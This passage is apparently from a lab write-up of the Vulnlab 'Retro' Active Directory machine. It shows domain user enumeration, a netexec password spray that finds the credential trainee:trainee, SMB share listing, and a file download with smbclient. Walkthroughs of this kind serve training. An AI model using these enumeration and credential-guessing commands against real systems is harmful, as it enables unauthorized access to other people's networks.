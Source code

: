 ```
572: RETRO\Denied RODC Password Replication Group (SidTypeAlias)
1000: RETRO\DC$ (SidTypeUser)
1101: RETRO\DnsAdmins (SidTypeAlias)
1102: RETRO\DnsUpdateProxy (SidTypeGroup)
1104: RETRO\trainee (SidTypeUser)
1106: RETRO\BANKING$ (SidTypeUser)
1107: RETRO\jburley (SidTypeUser)
1108: RETRO\HelpDesk (SidTypeGroup)
1109: RETRO\tblack (SidTypeUser)
```

We got a couple of users:

```
1000: RETRO\DC$ (SidTypeUser)
1104: RETRO\trainee (SidTypeUser)
1106: RETRO\BANKING$ (SidTypeUser)
1107: RETRO\jburley (SidTypeUser)
1109: RETRO\tblack (SidTypeUser)
```

I've stripped the users and added them to users.txt with the addition of 'administrator'. Since I knew that there would be weak credentials, I tried with the following pattern `user:pass`.

```
syl@sylsec:~/vulnlab/Retro$ netexec smb 10.10.64.243 -u ./users.txt -p ./users.txt 
SMB         10.10.64.243    445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.10.64.243    445    DC               [+] retro.vl\trainee:trainee
```

And I've got a hit for the user `trainee`. Now let's try to get the SMB shares once again with that user.

```
syl@sylsec:~/vulnlab/Retro$ netexec smb 10.10.64.243 -u trainee -p trainee --shares
SMB         10.10.64.243    445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.10.64.243    445    DC               [+] retro.vl\trainee:trainee 
SMB         10.10.64.243    445    DC               [*] Enumerated shares
SMB         10.10.64.243    445    DC               Share           Permissions     Remark
SMB         10.10.64.243    445    DC               -----           -----------     ------
SMB         10.10.64.243    445    DC               ADMIN$                          Remote Admin
SMB         10.10.64.243    445    DC               C$                              Default share
SMB         10.10.64.243    445    DC               IPC$            READ            Remote IPC
SMB         10.10.64.243    445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.64.243    445    DC               Notes           READ            
SMB         10.10.64.243    445    DC               SYSVOL          READ            Logon server share 
SMB         10.10.64.243    445    DC               Trainees        READ  
syl@sylsec:~/vulnlab/Retro$ smbclient //retro.vl/Notes -U 'trainee'                                   
Password for [WORKGROUP\trainee]: trainee
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jul 24 01:03:16 2023
  ..                                DHS        0  Wed Jul 26 12:54:14 2023
  ToDo.txt                            A      248  Mon Jul 24 01:05:56 2023

                6261499 blocks of size 4096. 2179053 blocks available
smb: \> get Todo.txt
getting file \Todo.txt of size 248 as Todo.txt (1,5 KiloBytes/sec) (average 1,5 KiloBytes/sec)
```
